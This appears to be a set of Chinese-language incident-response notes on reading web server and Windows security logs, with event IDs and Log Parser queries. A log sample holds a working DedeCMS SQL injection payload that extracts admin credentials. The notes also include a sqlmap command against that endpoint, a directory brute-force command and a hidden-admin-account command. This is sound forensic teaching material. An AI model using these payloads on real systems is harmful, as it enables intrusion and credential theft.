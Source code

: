###### apache日志、nginx日志、 IIS日志 .

access_ log和error_ log

```
#apache日志
192.168.10.244 - - [06/Oct/2022:16:31:49 +0800] "GET /dedecms/uploads/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\\%27%20or%20mid=@`\\%27`%20/*!50000union*//*!50000select*/1,2,3,(select%20CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin`%20limit+0,1),5,6,7,8,9%23@`\\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294%20```%20![] HTTP/1.1" 200 2837

#sql注入
sqlmap -u http://192.168.70.7:8091/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=*+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294%20```%20![]

#爆破目录
dirsearch -u http://192.168.70.7:8091
```

###### web日志分析工具

在线工具: https://tilipa.zlsam.com/loger/

##### 系统日志

windows系统日志包含系统日志，安全日志、应用日志等

###### 敏感事件id

- 4624登录成功
- 4625登录失败
- 4720创建用户
- 4634注销成功
- 4647用户启动的注销
- 4672使用超级用户/管理员用户进行登录

事件查看器：`eventvwr`

```
#创建隐藏账号
net user admin$ admin /add
```

###### 系统日志分析-Log Parser

下载地址：https://www.microsoft.com/en-us/download/details.aspx?id=24659

```
登录成功的所有事件
LogParser -i:EVT -o:DATAGRID "SELECT * FROM c:/Security.evtx where EventID=4624"

指定登录时间范围的事件: 
LogParser -i:EVT -o:DATAGRID "SELECT * FROM c:/Security.evtx where TimeGenerated > '2023-04-25 12:32:11' and TimeGenerated < '2023-04-26 12:32:11'

提取登录成功的用户名和IP:
LogParser -i:EVT -o:DATAGRID "SELECT EXTRACT_TOKEN(Message,13,'') as EventType,TimeGenerated as LoginTime,EXTRACT_TOKEN(Strings,5,'|') as Username,EXTRACT_TOKEN(Message,38,'') as Loginip FROM c:/Security.evtx where EventID=4624

登录失败的所有事件:
LogParser -i:EVT -o:DATAGRID "SELECT * FROM c:/Security.evtx where EventID=4625"
```
